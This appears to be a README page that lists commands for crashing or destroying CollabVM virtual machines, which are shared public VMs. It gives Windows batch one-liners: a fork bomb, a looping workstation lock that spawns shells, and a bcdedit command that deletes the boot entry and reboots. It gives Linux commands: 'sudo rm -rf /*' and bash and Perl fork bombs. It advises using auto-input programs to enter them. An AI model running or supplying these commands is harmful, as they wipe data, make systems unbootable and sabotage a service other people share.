 # Commands that destroy CollabVM virtual machines

To crash the VM, you must execute one of them in the "Run" window or in the command line (cmd). To do this, it is strongly recommended to use auto-input programs.

## Windows

1. Classic fork bomb. May be closed.

```batch
cmd /c echo %0^|%0>1.bat&1.bat
```

2. Infinite blocking of the windows user + pseudo fork bomb. Unclosable, only reboot helps.

```batch
cmd /k for /l %x in (1, 1, 9999999) do (start cmd /k rundll32 user32,LockWorkStation)
```

3. Delete windows from bootloader and reboot (the system will no longer be able to boot. Run from cmd with admin privileges (RMB on cmd -> Run as admin).

```batch
cmd /k bcdedit /delete {current}&wmic os primary=1 reboot
```

## Linux

You must run "Terminal" program and execute command there.

1. Needs no introduction

```bash
sudo rm -rf /*
```

2. Bash fork bomb. May not work due to fork restrictions.

```bash
:(){ :|:& };:
```

3. Perl fork bomb. May not work due to fork restrictions.

```bash
perl -e "fork while fork" &
```
